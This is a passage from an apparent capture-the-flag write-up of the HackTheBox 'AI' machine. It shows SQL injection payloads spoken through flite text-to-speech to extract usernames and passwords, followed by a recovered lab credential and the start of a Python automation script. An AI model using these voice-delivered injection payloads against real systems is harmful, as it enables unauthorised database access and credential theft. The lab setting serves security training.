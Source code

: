 ```sh
flite -w /tmp/test.wav -voice rms -t  "open single quote space union select space username space from users comment database"
' union select username from users -- -
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-21-HackTheBox-AI/2021-09-21-HackTheBox-AI%2007:10:34.png)

Password

```sh
flite -w /tmp/test.wav -voice rms -t  "open single quote space union select space password space from users comment database"
' union select password from users -- -
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-21-HackTheBox-AI/2021-09-21-HackTheBox-AI%2007:10:56.png)

`alexa:H,Sq9t6}a<)?q93_`

Now, let's automate it.

# Auto Shell Alexa

First, we will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-21-HackTheBox-AI/2021-09-21-HackTheBox-AI%2008:06:33.png)
